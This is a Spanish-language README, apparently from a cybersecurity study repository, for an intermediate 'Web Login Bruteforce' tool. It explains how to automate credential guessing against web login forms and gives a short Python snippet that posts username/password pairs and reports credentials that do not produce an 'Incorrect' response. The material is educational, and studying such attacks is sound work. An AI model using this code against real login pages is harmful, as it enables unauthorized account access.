

# Web Login Bruteforce

<span style="background-color: #2ea44f; color: white; padding: 4px 8px; border-radius: 4px; font-weight: bold;">Nivel Intermedio</span>

## 📝 Descripción
Crackeador de formularios de login web. Prueba combinaciones usuario/contraseña automáticamente.

## 🛠️ Arquitectura y Flujo de Datos


## 🧠 Explicación Técnica y Conceptos Clave
Esta herramienta demuestra la automatización de ataques de fuerza bruta contra formularios web enviando peticiones HTTP POST con payloads de credenciales. La clave reside en definir correctamente el criterio de éxito, evaluando los redirects o la ausencia de mensajes de error como 'usuario incorrecto'.

## 💻 Código de Ejemplo o Estructura Lógica
```python
import requests

def attempt_login(url, user, password):
    payload = {"username": user, "password": password}
    r = requests.post(url, data=payload)
    if "Incorrect" not in r.text:
        print(f"Credenciales correctas: {user}:{password}")
```

## 🔗 Código Fuente y Acceso en GitHub
Puedes ver la implementación completa del código y probar este script directamente accediendo a su carpeta de proyecto:
[Ver código en GitHub](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/nivel_intermedio/04_web_login_bruteforce)
